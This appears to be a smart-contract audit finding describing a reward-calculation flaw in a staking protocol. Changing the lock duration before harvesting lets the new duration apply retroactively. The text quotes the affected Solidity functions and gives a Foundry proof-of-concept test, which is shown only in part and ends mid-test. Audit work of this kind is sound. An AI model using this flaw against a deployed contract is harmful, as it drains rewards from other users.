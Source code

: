 There is also a bonus that depends on the user's lock duration setting.

```solidity
    function getHarvestBonus(
        address _caller
    ) external view override returns (uint256) {
        uint256 weightedValue = _lockManager.getLockedWeightedValue(_caller);
        ILockManager.PlayerSettings memory _settings = _lockManager
            .getPlayerSettings(_caller);
        uint256 _migrationBonus;
        if (block.timestamp < migrationBonusEndTime) {
            _migrationBonus = _calculateMigrationBonus(_caller, weightedValue);
        }
        return
>>          _calculateLockBonus(_settings.lockDuration) +
            _migrationBonus +
            _calculateLevelBonus(_caller) +
            _calculateMunchadexBonus(_caller);
    }
```

Users have an option to change their lock duration during ongoing locks.

```solidity
    function setLockDuration(uint256 _duration) external notPaused {
        if (_duration > configStorage.getUint(StorageKey.MaxLockDuration))
            revert MaximumLockDurationError();

>>      playerSettings[msg.sender].lockDuration = uint32(_duration);
```

The issue arises when user rewards are not harvested before the update. This leads the protocol to assume that the user had the updated duration from the beginning of the lock, resulting in incorrect reward calculations.

Coded POC for `SpeedRun.t.sol`:

```solidity
    function test_Reward() public {
        address alice = address(0xa11ce);
        vm.deal(alice, 100e18);

        uint256 lockAmount = 100e18;

        console.log("Beginning run()");
        deployContracts();

        // register me
        amp.register(MunchablesCommonLib.Realm(3), address(0));
        vm.prank(alice);
        amp.register(MunchablesCommonLib.Realm(3), address(0));
        logSnuggery("Initial snuggery");

        // lock tokens
        lm.lock{value: lockAmount}(address(0), lockAmount);
        vm.prank(alice);
        lm.lock{value: lockAmount}(address(0), lockAmount);

        vm.warp(30 days);
        // Player 0 harvests while Player 1 does nothing
        amp.harvest();

        lm.setLockDuration(60 days);
        vm.prank(alice);
        lm.setLockDuration(60 days);
        vm.warp(60 days + 1);
        
```